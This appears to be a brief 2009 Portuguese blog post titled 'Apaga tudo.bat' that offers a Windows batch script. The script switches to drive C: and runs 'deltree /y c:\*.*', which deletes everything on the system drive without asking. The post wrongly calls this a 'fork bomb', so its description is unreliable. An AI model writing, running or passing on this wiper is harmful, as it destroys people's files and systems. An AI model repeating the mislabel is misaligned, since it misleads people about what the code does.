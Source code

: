 ```yaml
---
id: 21
title: Apaga tudo.bat
date: 2009-09-28T18:54:02-03:00
author: Sidnei Weber
layout: post
permalink: /apaga-tudobat/
tags:
  - windows
---
```

Fork bomb para Windows

```
@echo off

c:

deltree /y c:\*.\*
```
